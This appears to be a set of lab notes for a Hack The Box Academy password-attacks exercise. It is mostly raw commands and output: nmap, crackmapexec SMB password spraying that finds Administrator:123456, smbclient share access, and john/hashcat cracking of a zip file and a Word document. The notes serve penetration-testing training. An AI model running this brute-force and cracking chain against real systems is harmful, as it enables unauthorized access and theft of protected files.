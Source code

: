 ## LAB

nmap -sV -oA nmap $TARGET --stats-every=5s

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

wget https://academy.hackthebox.com/storage/resources/Password-Attacks.zip

crackmapexec smb $TARGET -u Administrator -p password.list --shares

SMB         10.129.202.221  445    SKILLS-MEDIUM    [*] Windows 6.1 Build 0 (name:SKILLS-MEDIUM) (domain:) (signing:False) (SMBv1:False)
SMB         10.129.202.221  445    SKILLS-MEDIUM    [+] \Administrator:123456 
SMB         10.129.202.221  445    SKILLS-MEDIUM    [+] Enumerated shares
SMB         10.129.202.221  445    SKILLS-MEDIUM    Share           Permissions     Remark
SMB         10.129.202.221  445    SKILLS-MEDIUM    -----           -----------     ------
SMB         10.129.202.221  445    SKILLS-MEDIUM    print$                          Printer Drivers
SMB         10.129.202.221  445    SKILLS-MEDIUM    SHAREDRIVE      READ            SHARE-DRIVE
SMB         10.129.202.221  445    SKILLS-MEDIUM    IPC$                            IPC Service (skills-medium server (Samba, Ubuntu))

smbclient //dc01/c$ -k -c 'recurse;ls' -u Administrator -p 123456

rpcclient -U Administrator $TARGET

crackmapexec smb $TARGET --shares -u 'Administrator' -p '123456'

smbclient -U Administrator \\\\$TARGET\\SHAREDRIVE

get Docs.zip 

locate *2john*

/usr/bin/zip2john Docs.zip > zip.hash
cat zip.hash

john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash

john zip.hash --show
0 password hashes cracked, 1 left

hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
john --wordlist=mut_password.list zip.hash
john zip.hash --show

Docs.zip/Documentation.docx:Destiny2022!:Documentation.docx:Docs.zip::Docs.zip
1 password hash cracked, 0 left

unzip Docs.zip
Destiny2022!

/usr/share/john/office2john.py Documentation.docx > zipdocx.hash
john --wordlist=mut_password.list zipdocx.hash
john zipdocx.hash --show
